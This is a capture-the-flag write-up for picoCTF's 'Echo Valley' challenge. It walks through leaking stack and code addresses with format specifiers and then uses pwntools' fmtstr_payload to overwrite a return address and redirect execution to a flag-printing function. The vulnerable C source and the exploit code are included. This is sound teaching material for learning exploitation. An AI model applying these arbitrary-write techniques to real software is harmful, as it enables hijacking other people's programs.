

# Echo Valley
Challenge Description:
> The echo valley is a simple function that echoes back whatever you say to it. But how do you make it respond with something more interesting, like a flag?

CTF: <b>picoCTF</b> (picoGym)<br>Difficulty: <b>Medium</b>

<b>[Jump to solution](#solution)</b>

## Hints
Here are the hints provided by the challenge author.
<details>
<summary>Hint 1</summary>

> Ever heard of a format string attack?
</details>

<br>And for those crashing randomly when the attack "succeeds," another hint:
<details>
<summary>Hint 2</summary>

> Try returning to print_flag+5 instead of print_flag+0.
</details>

## Procedure
The challenge program is simple; all it does is echo your input back to you. As with all programs that echo input back to you, we can check to see if a format string vulnerability is present.
```
$ ./valley
Welcome to the Echo Valley, Try Shouting: 
hammy
You heard in the distance: hammy
hammy
You heard in the distance: hammy
hammmmmmmmmmmmmmmmmyyy
You heard in the distance: hammmmmmmmmmmmmmmmmyyy
%p
You heard in the distance: 0x5d0d01f430c1
exit
The Valley Disappears
$ 
```
This doesn't give us much else, so let's look at the source (or run `info func` in gdb).
```c
void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}
```
It looks like there's a function `print_flag` we would like to return to. Additionally, it doesn't look like buffer overflow is a viable option for overwriting the return address, since `fgets` will only read in 100 bytes at a time.

Therefore, the plan of attack seems to be to overwrite the return address with the address of `print_flag` using the format string vulnerability for arbitrary writes. We need three pieces of information for this:
1. The offset of our input in the printf argument list
2. The address of `print_flag`
3. The address of the return address we wish to overwrite on the stack

The first key, the offset of our input in the printf, can be found using pwntools' FmtStr automation.
```python
def send_payload(payload):
    target = process("./valley")
    target.recvuntil(b': ')
    target.sendline(payload)
    target.recvuntil(b'distance: ')
    return target.recvline()

# Figure out the format of the vulnerable printf
fsv = FmtStr(execute_fmt=send_payload)
offset = fsv.offset
print("Offset: " + str(offset))

# We get an offset of 6.
```

The second and third keys can be found by leaking addresses with the vulnerable printf and checking them out in gdb to see if they have constant offsets from our targets. After some experimenting, I found two usable addresses at the 21st and 20th positions.
```
Welcome to the Echo Valley, Try Shouting: 
%21$p %20$p
You heard in the distance: 0x5766670d1413 0x7fffe8cf07d0
```
The first looks like a code address whereas the second looks like a stack address. In gdb, we can calculate the offsets of these addresses from the address of `print_flag` and the return address respectively.
1. To calculate the offset from `print_flag`, we can simply print the address of `print_flag` in gdb.
```
gef➤  p print_flag
$1 = {void ()} 0x5766670d1269 <print_flag>
```
So, the offset from our leaked code address to `print_flag` is `0x5766670d1413 - 0x5766670d1269 = 0x1aa`.

2. To calculate the offset from the return address, we can find the address of the return address by examining `$rbp+8` while in the stack frame of `echo_valley`, or examining the value of `$rsp` at the return (you can set a breakpoint at the return with `b *echo_valley+249`).
```
gef➤  p $rsp
$3 = (void *) 0x7fffe8cf07c8
```
So, the offset from our leaked stack address to the return address' address is `0x7fffe8cf07d0 - 0x7fffe8cf07c8 = 0x8`.

We now have enough information to craft our FSV payload. The convenient part of this challenge is that it lets us perform multiple arbitrary writes instead of limiting us to just one, which means we can perform our writes in chunks rather than needing to generate or craft a crazy long/complex payload in one input. (Additionally, our input is limited to 100 bytes at a time so crafting just 1 input could be unfeasible.)

I chose to write 2 bytes at a time:
```python
chunksToWrite = [   printFlagAddr & 0xFFFF,
                    (printFlagAddr >> 16) & 0xFFFF,
                    (printFlagAddr >> 32) & 0xFFFF]

payload1 = fmtstr_payload(offset, {retAddrAddr : chunksToWrite[0]})
payload2 = fmtstr_payload(offset, {retAddrAddr+2 : chunksToWrite[1]})
payload3 = fmtstr_payload(offset, {retAddrAddr+4 : chunksToWrite[2]})
target.sendline(payload1)
target.sendline(payload2)
target.sendline(payload3)
```
At this point, my exploit "works." The program successfully gets redirected to `print_flag` when I input `exit`, but there's just a tiny problem... it crashes in the `print_flag` function.
```
Core was generated by `./valley'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x000073bc2f2750d0 in __vfprintf_internal (s=0x73bc2f41b780 <_IO_2_1_stdout_>, format=0x5f8798f2c040 "Congrats! Here is your flag: %s", ap=ap@entry=0x7fff4dcdd878, mode_flags=mode_flags@entry=0x0) at ./stdio-common/vfprintf-internal.c:1244
```

After some messing around (and solving format-string-3), I found out that it was some of the stack frame prologue instructions causing the crash! Adding +5 to the address of `print_flag` so we skip over the `push rbp` prologue instruction wraps up the challenge.
```python
printFlagAddr = int(leaks[0], 16) - 0x1aa + 5
```
> 


## Solution
1. Leak a relevant code address and a relevant stack address uising the format string vulnerability. These can be leaked with `%20$p` and `%21$p`.
2. Calculate the offset of these leaked addressed from the `print_flag` function and the address of the return address of `echo_valley`'s stack frame on the stack.
3. Construct a format string payload to overwrite the return address of `echo_valley` to return to the address of `print_flag`+5. The +5 is necessary to skip over a prologue instruction that can cause a crash within the `print_flag` function.

## Key Takeaways
1. Skipping over prologue instructions can mitigate weird crashes you get when successfully redirecting program execution.
2. This challenge was my first real tango with pwntools' automated FSV exploit generation tools. Most of my other FSV exploits were manually crafted.